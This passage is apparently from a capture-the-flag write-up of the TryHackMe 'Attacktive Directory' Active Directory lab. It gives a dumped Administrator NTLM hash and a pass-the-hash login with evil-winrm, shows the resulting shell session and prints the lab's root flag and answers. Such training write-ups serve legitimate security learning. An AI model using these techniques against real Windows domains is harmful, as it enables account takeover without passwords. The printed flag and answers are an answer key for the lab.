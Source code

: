 ```
```

`DRSUAPI`

2. What is the Administrators NTLM hash?

`Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::`

`0e0363213e37b94221497260b0bcb4fc`

3. What method of attack could allow us to authenticate as the user without the password?

`pass the hash`

4. Using a tool called Evil-WinRM what option will allow us to use a hash?

```
bibo318@parrot:~/CTFs/tryhackme/Attacktive Directory$ evil-winrm -i 10.10.225.245 -u administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

`-H`

## Task 8 Flags

Submit the flags for each user account. They can be located on each user's desktop.

If you enjoyed this box, you may also enjoy my [blog post](https://blog.spookysec.net/kerberos-abuse/)!

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         4/4/2020  11:39 AM             32 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
TryHackMe{4ctiveD1rectoryM4st3r}
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cd ..\..\
*Evil-WinRM* PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/17/2020   4:04 PM                a-spooks
d-----        9/17/2020   4:02 PM                Administrator
d-----         4/4/2020  12:19 PM                backup
d-----         4/4/2020   1:07 PM                backup.THM-AD
d-r---         4/4/2020  11:19 AM                Public
d-----         4/4/2020  12:18 PM                svc-admin


```